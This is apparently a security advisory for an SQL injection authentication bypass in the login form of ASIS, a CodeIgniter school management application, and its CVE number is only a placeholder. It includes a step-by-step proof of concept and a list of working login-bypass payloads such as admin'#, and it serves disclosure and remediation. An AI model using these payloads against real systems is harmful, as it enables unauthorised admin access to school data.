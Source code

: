 # ASIS | Aplikasi Sistem Sekolah Using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-XXXXX](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-XXXXX)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-XXXXX) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-XXXXX)

### Date:

> 5 July 2024

### Author Email:

> atoz.chevara@yahoo.com

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter)

### Version:

> v 3.0.0 & 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as admin'# and password as xyz
* Step 3 – Click LOGIN and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
'||1#
'||1-- 
'=' 'or'
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
